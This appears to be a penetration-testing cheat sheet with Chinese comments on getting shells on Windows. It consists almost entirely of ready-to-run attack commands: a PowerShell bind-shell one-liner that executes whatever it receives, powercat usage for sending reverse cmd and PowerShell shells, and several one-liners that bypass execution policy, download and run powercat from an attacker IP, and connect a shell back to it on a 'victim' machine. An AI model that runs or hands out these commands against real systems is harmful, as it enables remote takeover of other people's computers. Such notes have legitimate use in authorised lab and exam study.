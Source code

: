 **bind shell**

```powershell
//监听
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"

//kali连接
nc -nv ip 443
```

### powercat
powershell 强化工具
[git powercat](https://github.com/besimorhino/powercat)

```bash
apt install powercat    // /usr/share/windows-resources/powercat

//windows
Load The Function From Downloaded .ps1 File:
    . .\powercat.ps1
Load The Function From URL:
    IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')

powercat -h

## Serve a cmd Shell:
powercat -l -p 443 -e cmd
## Send a cmd Shell:
powercat -c 10.1.1.1 -p 443 -e cmd
## Send a powershell:
powercat -c 10.1.1.1 -p 443 -ep
## Send a powershell UDP:
powercat -c 10.1.1.1 -p 443 -ep -u
## TCP Listener to TCP Client Relay:
powercat -l -p 8000 -r tcp:10.1.1.16:443
## Generate a reverse tcp payload which connects back to 10.1.1.15 port 443:
powercat -c 10.1.1.15 -p 443 -e cmd -g
## Start A Persistent Server That Serves a File:
powercat -l -p 443 -i C:\inputfile -rep


# download, start webserver and execute in victim
powershell -exec bypass -c "iwr('http://10.2.0.5/powercat.ps1')|iex;powercat -c 10.2.0.5 -p 4444 -e cmd"

powershell IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.119.196/powercat.ps1');powercat -c 192.168.119.196 -p 4444 -e cmd

powershell.exe -nop -ep bypass -c  "IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.119.196/powercat.ps1');powercat -c 192.168.119.196 -p 4444 -e cmd"
```
